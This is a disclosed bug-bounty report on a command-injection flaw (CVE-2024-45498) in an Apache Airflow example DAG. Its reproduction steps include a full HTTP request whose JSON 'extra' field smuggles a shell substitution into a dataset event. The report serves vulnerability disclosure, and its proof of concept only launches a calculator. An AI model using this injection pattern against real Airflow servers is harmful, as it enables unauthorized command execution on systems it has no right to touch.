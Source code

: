 # CVE-2024-45498: Apache Airflow Command injection in read_dataset_event_from_classic DAG

## Report Details
- **Report ID**: 2705661
- **URL**: https://hackerone.com/reports/2705661
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-09-07T03:01:53.661Z
- **Disclosed**: 2024-12-07T02:52:58.532Z

## Reporter
- **Username**: nhienit2010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary
Command injection vulnerability in `read_dataset_event_from_classic` DAG executes bash command based on `Dataset("s3://output/1.txt")` but attacker with `User` privileges can inject OS command inside `s3://output/1.txt` dataset to execute any OS command.

## Requirements

- Airflow version 2.10.0
- DAG: example_inlet_event_extra.py
- A user with `create Dataset` and `DAG trigger` permissions

## Step to reproduce

1. Login to `User` permission account.
{F3581847}

2. Inject malicous command into `s3://output/1.txt` dataset via the request as show below:
```
POST /api/v1/datasets/events HTTP/1.1
Host: 192.168.168.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.168.129:8080/datasets?uri=s3%3A%2F%2Foutput%2F1.txt
Cookie: session=<authen-cookie>
Content-Type: application/json
Content-Length: 62

{"dataset_uri":"s3://output/1.txt","extra":{"hi":" '$(gnome-calculator)' "}}
```
{F3581851}
{F3581850}

3. Go to `DAG` list and trigger `read_dataset_event_from_classic` DAG
{F3581853}

4. Go to `read_dataset_event_from_classic` task log to see the output returned.
{F3581844}

## Impact

Execute any OS command

## Attachments
- 1.png
- 4.png
- 5.png
- 3.png
- 2.png
- 6.png
